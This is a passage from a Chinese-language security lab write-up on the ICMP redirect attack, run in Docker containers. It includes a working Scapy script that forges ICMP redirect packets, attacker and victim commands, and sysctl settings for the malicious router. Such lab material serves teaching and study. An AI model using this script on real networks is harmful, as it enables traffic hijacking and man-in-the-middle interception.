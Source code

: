 在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```

此时查看 victim 的路由：

```shell
victim-10.9.0.5$ mtr -n 192.168.60.5
```

![Launching ICMP Redirect Attack 路由未改变](/assets/post/images/icmp5.webp)

可以看出，此时没有变化。：

> Question 3: If you look at the docker-compose.yml file, you will find the following entries for the malicious router container. What are the purposes of these entries? Please change their value to 1, and launch the attack again. Please describe and explain your observation.

修改 dockerfile：

```dockerfile
- net.ipv4.conf.all.send_redirects=1
- net.ipv4.conf.default.send_redirects=1
- net.ipv4.conf.eth0.send_redirects=1
```

编写 `icmp.py：`

```python
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = '10.9.0.11', dst = '10.9.0.5')
icmp = ICMP(type=5, code=1)
icmp.gw = '10.9.0.111'

# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = '10.9.0.5', dst = '192.168.60.5')
send(ip/icmp/ip2/ICMP());
```

在 attacker 上运行：

```shell
attacker-10.9.0.105$ icmp.py
.
Sent 1 packets.
```
